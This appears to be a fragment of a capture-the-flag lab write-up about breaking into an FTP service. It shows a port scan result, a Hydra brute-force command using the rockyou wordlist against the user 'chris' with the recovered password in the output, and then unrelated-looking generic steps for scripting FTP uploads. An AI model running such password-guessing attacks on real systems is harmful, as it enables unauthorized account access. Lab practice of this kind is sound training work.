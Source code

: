 NO anonymous log in

```

21/tcp open  ftp     vsftpd 3.0.3
```

```
root@ip-10-10-42-255:~# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.206.183
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-02-23 16:54:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.206.183:21/

[21][ftp] host: 10.10.206.183   login: chris   password: crystal

```

Create a file with the ftp commands in it: (call it 'ftpcommands.txt')

```
 open YourFtpServer.com
 user YourUserName YourPassword
 put localfilename remotefilename
 bye
```

Then run the ftp command and feed the file into it:

```
 ftp -n < ftpcommands.txt
```